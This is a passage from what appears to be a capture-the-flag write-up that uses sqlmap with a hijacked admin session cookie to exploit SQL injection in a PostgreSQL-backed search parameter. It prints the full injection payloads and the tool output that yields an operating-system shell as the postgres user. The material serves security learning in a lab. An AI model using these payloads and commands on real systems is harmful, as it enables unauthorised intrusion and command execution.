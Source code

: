 The website redirect us to the `index.php` because we aren't logged so go put the PHPSESSID cookie of our admin account in the command :

```SHELL
sqlmap -u "http://10.129.11.179/dashboard.php?search=e" --os-shell --cookie="PHPSESSID=upjm3aapshdfdd5lhtr2b01t6i
```

We enter `Y` `Y` and `N`for the 3 question and there is our shell :
```SHELL
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=e' AND (SELECT (CASE WHEN (5877=5877) THEN NULL ELSE CAST((CHR(121)||CHR(81)||CHR(110)||CHR(90)) AS NUMERIC) END)) IS NULL-- BDUs

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=e' AND 7033=CAST((CHR(113)||CHR(122)||CHR(118)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (7033=7033) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(106)||CHR(120)||CHR(113)) AS NUMERIC)-- tXeJ

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=e';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=e' AND 4479=(SELECT 4479 FROM PG_SLEEP(5))-- NOqU
---
[14:39:07] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[14:39:08] [INFO] fingerprinting the back-end DBMS operating system
[14:39:08] [INFO] the back-end DBMS operating system is Linux
[14:39:08] [INFO] testing if current user is DBA
[14:39:08] [INFO] retrieved: '1'
[14:39:08] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[14:39:08] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```


With an `whoami` command we see that we are the user `postgres`

```SHELL
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[14:40:45] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
os-shell> 
```
